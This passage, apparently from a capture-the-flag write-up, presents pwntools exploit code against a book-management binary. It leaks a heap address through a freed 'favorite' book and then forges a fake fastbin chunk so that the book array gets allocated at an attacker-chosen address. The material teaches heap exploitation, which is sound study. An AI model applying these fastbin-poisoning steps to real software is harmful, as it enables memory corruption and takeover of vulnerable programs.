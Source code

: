 ``` python
    p.sendline('e')
    p.sendline(title)
    p.sendline(str(rating))
    p.sendline(description)

def main():
    add_book('0', '0', 10)
    add_book('1', '1', 10)

    favorite_book(0)
    delete_book(2)
    delete_book(1)

    p.recvuntil('Your favorite: ')
    p.recvuntil('Your favorite: ')
    p.recvuntil('Your favorite: ')
    heap_leak = u64(p.recvline().strip().ljust(8, '\x00'))
    log.info('heap_leak: %s' % hex(heap_leak))
```

The above code is a [pwntools](https://github.com/Gallopsled/pwntools) script with a few helper functions for interacting with the binary. Running the script will leak a heap address using the method described above.

## Creating a fake chunk

Now let's create a fake chunk and get the `book_array` allocated on our fake chunk. We'll start out by making our `book_array` be 56 bytes. A book array of 64 bytes will be put in the same fastbin as our `Book` structs when freed (chunks of size 80/0x50), and we don't want to pollute that fastbin.

``` python
# Allocate 7 books, setting the size of the books_array to 56
for i in range(7):
    add_book(str(i), str(i), 10)

delete_book(1)
```

The very first book we created in that loop will be allocated in the memory where the favorite chunk previously resided. We delete that book so that we still have control over the fastbin list, just like we did for the leak.

Before we add a fake chunk to the list, let's make a valid one. We'll put it inside of the second book.
```
# Create fake chunk by setting correct metadata size
edit_title(2, p64(0x51), 'AAAAAAAA', 10)
```

The important part here is that we put a 0x51 in memory. As long as that lines up with the size of the heap chunk, glibc won't complain about it being the wrong size.

Now we make our fastbin list point this this fake chunk:
```
# Add a fake chunk to the fastbin list
edit_title(0, p64(heap_leak + 0x58), 'BBBBBBBB', 10)
```
